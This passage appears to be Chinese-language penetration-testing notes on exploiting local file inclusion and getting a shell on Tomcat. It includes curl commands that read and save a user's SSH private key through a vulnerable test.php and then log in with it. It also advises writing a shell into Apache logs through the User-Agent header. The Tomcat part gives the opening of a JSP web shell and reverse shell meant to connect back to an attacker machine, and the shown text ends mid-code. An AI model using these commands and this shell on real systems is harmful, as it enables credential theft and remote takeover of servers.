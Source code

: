   ```
  /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt
  ```

  - 包含 apache 的日志文件，在 ua 头 里写 shell

  - 包含网站配置文件，查看相关密码

  - 包含私钥 

    ```bash
    curl http://192.168.2.14/test.php?file=/home/qiu/.ssh/authorized_keys   查看是否开启了私钥登录
    curl http://192.168.2.14/test.php?file=/home/qiu/.ssh/id_rsa > id_rsa
    chmod 0400 id_rsa 
    ssh qiu@192.168.2.14 -i id_rsa
    ```

------

- Tomcat后台拿shell

  上传后门 war 包，访问触发 

  shell.jsp:

  ```jsp
  <%
      /*
       * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
       * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
       * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
       * the command specified in the HTML form). This is to avoid to keep it simple.
       */
  %>
  
  <%@page import="java.lang.*"%>
  <%@page import="java.io.*"%>
  <%@page import="java.net.*"%>
  <%@page import="java.util.*"%>
  
  <html>
  <head>
      <title>jrshell</title>
  </head>
  <body>
  <form METHOD="POST" NAME="myform" ACTION="">
      <input TYPE="text" NAME="shell">
      <input TYPE="submit" VALUE="Send">
  </form>
  <pre>
  <%
      // Define the OS
      String shellPath = null;
      try
      {
          if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
              shellPath = new String("/bin/sh");
          } else {
              shellPath = new String("cmd.exe");
          }
      } catch( Exception e ){}
      // INNER HTML PART
      if (request.getParameter("shell") != null) {
          out.println("Command: " + request.getParameter("shell") + "\n<BR>");
  ```